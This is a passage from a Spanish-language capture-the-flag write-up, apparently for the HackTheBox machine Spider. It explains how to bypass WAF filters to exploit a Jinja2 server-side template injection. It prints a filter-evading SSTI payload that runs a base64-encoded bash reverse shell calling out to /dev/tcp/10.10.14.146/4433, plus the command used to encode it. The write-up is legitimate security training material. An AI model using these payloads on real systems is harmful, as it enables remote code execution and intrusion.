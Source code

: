 Todo nos lo bloquea el [WAF (Web Application Firewall)](https://www.optical.pe/blog/que-es-un-waf/), pero podemos intentar bypassear estos filtros a ver si tenemos suerte.

...

Sabiendo que ya explotamos un **SSTI** y que seguimos en la web, podemos pensar que el apartado extraño (`supportportal`) sigue corriendo sobre **Jinja2** y que podría ser vulnerable a **SSTI**.

> Además el backend esta bloqueando caracteres que son usados comunmente por un <u>template</u>, así que podemos reforzar la idea que debamos explotar otro <u>SSTI</u>, pero ahora bypasseando algunos filtros...

...

### Burlando backend para conseguir <u>RCE</u> explotando <u>SSTI</u> [⛷️](#shop-support-ticket-ssti-rce) {#shop-support-ticket-ssti-rce}

Jugando de nuevo con nuestros recursos llenos de payloads, [encontramos algo](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) básicamente diciéndonos: "**Toma, explótalo YAAAAAA!**":

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spider/350google_rce_without_brackets.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

{% raw %}
```jinja2
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
```
{% endraw %}

> Tomado de: [hacktricks.xyz - SSTI Jinja2](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python).

Es muy sencillo lo que hace, primero bypassea el carácter `_` pasándolo a hexadecimal `\x5f`, toma las clases del sistema e importa entre ellas "`os`", con ella ejecuta el `echo XYZ | base64 -d | bash`, que seria tomar la cadena en base64 (nuestro payload), decodificarlo e interpretarlo.

...

Excelente post para profundizar en **SSTI**, además esta escrito por **<u>chiv</u>**, uno de los creadores de esta máquina:

* [Jinja2 SSTI Research](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/).

...

Bien, pues creemos nuestro payload para obtener una reverse Shell y probemos:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.146/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQzMyAwPiYxCg==
```

La agregamos al payload:

{% raw %}
```jinja2
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQzMyAwPiYxCg== | base64 -d | bash")["read"]() %} a {% endwith %}
```
{% endraw %}

